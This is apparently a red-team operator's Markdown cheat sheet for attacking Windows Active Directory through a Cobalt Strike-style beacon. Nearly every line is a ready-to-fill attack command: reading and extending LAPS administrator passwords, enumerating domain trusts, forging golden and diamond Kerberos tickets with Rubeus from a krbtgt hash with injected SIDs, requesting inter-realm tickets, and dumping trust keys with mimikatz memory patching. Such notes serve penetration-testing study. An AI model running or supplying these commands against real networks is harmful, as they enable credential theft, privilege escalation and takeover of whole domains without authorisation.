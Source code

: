 Read LAPS Password
`powerpick Get-DomainComputer -Identity [computer] -Properties ms-Mcs-AdmPwd`
`powershell Get-LapsADPassword -ComputerName [computer] | fl`
`powershell Get-AdmPwdPassword -ComputerName [computer] | fl`
`make_token .\LapsAdmin [ms-mcs-admpwd]`
#### Password Expiration Protection
[https://www.epochconverter.com/ldap](https://www.epochconverter.com/ldap) ⇒ convert time to/from human-readable format

Get Expiration
`powerpick Get-DomainComputer -Identity [computer] -Properties ms-Mcs-AdmPwd,ms-Mcs-AdmPwdExpirationTime`
Set Expiration
`powerpick Set-DomainObject -Identity [computer] -Set @{'ms-Mcs-AdmPwdExpirationTime' = '[time]'} -Verbose`
## Domain Trusts
`powerpick Get-DomainTrust -Domain [domain]`

`powerpick Get-DomainController -Domain [target] | select Name`
`powerpick Get-DomainComputer -Domain [target] -Properties DnsHostName`
#### Two-Way (Parent/Child)
`powerpick Get-DomainGroup -Identity "Domain Admins" -Domain [target] -Properties ObjectSid`
`powerpick Get-DomainSID`

golden ticket: `C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:[krbtgt hash] /user:Administrator /domain:[current] /sid:[domain sid] /sids:[objectsid] /nowrap`
diamond ticket: `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:519 /sids:[objectsid] /krbkey:[krbtgt aes256 hash] /nowrap`

[[#Pass-the-Ticket]]
#### One-Way Inbound (yay)

Find user on current domain that belongs to Administrators group in target domain
`powerpick Get-DomainForeignGroupMember -Domain [target]`
`powerpick ConvertFrom-SID [MemberName]`
`powerpick Get-DomainGroupMember -Identity "[group]" | select MemberName`

obtain user TGT: [[#Kerberos Tickets]] or [[#Overpass-the-Hash]]
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:krbtgt/[target] /domain:[current] /dc:[current dc] /ticket:[tgt] /nowrap`

see [[#Service Tickets]]
`powerpick Get-DomainController -Domain [target] | select Name`
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:[service]/[target dc] /domain:[target] /dc:[target dc] /ticket:[base64 (previous command)] /nowrap`
[[#Pass-the-Ticket]]
#### One-Way Outbound (sad)
can only get domain user access

Obtain Trusted Domain Object (TDO) key
on DC: `mimikatz !lsadump::trust /patch`
- risky because it involves memory patching
